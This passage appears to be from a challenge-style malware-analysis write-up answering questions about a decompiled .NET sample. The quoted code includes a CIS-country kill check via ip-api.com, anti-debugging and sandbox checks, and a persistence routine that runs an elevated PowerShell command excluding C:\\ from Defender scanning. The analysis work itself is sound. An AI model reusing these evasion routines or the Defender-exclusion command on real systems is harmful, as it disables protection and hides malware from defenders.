 ![image](https://github.com/user-attachments/assets/5b2a1bd9-152f-4519-b755-e45c0100bea0)

**Answer:** 666,777,111,5544

### **Question 15**
The malware sends a HTTP request to a URI and checks the country code or country name of the victim machine. To which URI does the malware sends request for this?

The malicious URI is here. I continued evaluating the settings that I captured using dnSpy

![image](https://github.com/user-attachments/assets/bf080497-dcb6-4ecc-844b-e5d77af6368c)

**Answer:** http://ip-api.com/json/
### **Question 16**
After getting the country code or country name of the victim machine, the malware checks some country codes and a country name. In case of the country name, if the name is matched with the victim machine’s country name, the malware terminates itself. What is the country name it checks with the victim system?

Russia. This was al;l found within the settings. I saw a function it was using called 'GetSNG' and noticed it setting a string to a coutnry code. After further evaluation I noted the country code of 'Russia' is what it checks the system for. I will palce a snippet of the code below.

public static void GetSNG() { string countryCode = Antisng.GetCountryCode(); string countryName = Antisng.GetCountryName(); if (!(countryCode == "RU") && !(countryCode == "AZ") && !(countryCode == "AM") && !(countryCode == "BY") && !(countryCode == "KZ") && !(countryCode == "KG") && !(countryCode == "MD") && !(countryCode == "TJ") && !(countryCode == "TM") && !(countryCode == "UZ") && !(countryName == "Russia"))

**Answer:** Russia

### **Question 17**
As an anti-debugging functionality, the malware checks if there is any process running where the process name is a debugger. What is the debugger name it tries to check if that’s running?

It tried to checked for dnSpy and many other items. Cod esnippet below where I found it within the settings

public static void RunAntiAnalysis() { if (!Anti_Analysis.DetectManufacturer() && !Anti_Analysis.DetectDebugger() && !Anti_Analysis.DetectSandboxie() && !Anti_Analysis.IsSmallDisk() && !Anti_Analysis.IsXP() && **!Anti_Analysis.IsProcessRunning("dnSpy")** && !Anti_Analysis.CheckWMI()) return; Environment.FailFast((string) null); }

**Answer:** dnSpy

### **Question 18**
For persistence, the malware writes a Registry key where the registry key is hardcoded in the malware in reversed format. What is the registry key after reversing?

Under the function 'go' I found the hard coded registry key. It is in reverse format to evade detection

public static void go() { try { string str = Regex.Replace(Regex.Match(Assembly.GetExecutingAssembly().Location, "[^\\\\]+$").Value, ".exe$", ""); RegistryKey subKey = Registry.CurrentUser.CreateSubKey("Software"); if (subKey.OpenSubKey(str, true) == null) { subKey.CreateSubKey(str); Methods.create(); Methods.writeb(); Environment.Exit(0); } else { if (File.Exists(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\" + str)) return; File.Create(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\" + str); Process.Start(new ProcessStartInfo() { FileName = "powershell", Arguments = "-Command \"Add-MpPreference -ExclusionPath 'C:\\'", Verb = "runas" }); } } catch { } }
